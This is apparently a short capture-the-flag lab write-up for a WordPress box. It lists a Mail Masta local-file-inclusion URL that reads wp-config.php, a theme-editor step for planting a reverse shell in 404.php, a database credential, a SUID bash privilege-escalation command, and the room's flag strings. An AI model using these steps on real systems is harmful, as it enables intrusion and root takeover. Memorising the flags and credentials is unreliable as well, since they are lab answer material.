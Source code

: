 # All in One-Edit php file as admin&SUID chmod

```
export IP=10.10.153.220
```

# Material needed

1. Interesting directory: /wordpress

2. Wordpress exploitation

```
WordPress Plugin Mail Masta 1.0 - Local File Inclusion

# Get DBS credential 
http://$IP/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

# Edit 404.php with admin panel 
http://$IP/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty

# Run reverse shell
http://10.10.244.196/wordpress/wp-content/themes/twentytwenty/404.php
```

3. dbs credentials

```
elyana:H@ckme@123
```

4. Privilege escalation

```
LFILE=/bin/bash
/bin/chmod 6777 $LFILE
/bin/bash -p
```
# Tasks

1. user.txt

```
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}  
```

2. root.txt

```
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}  
```
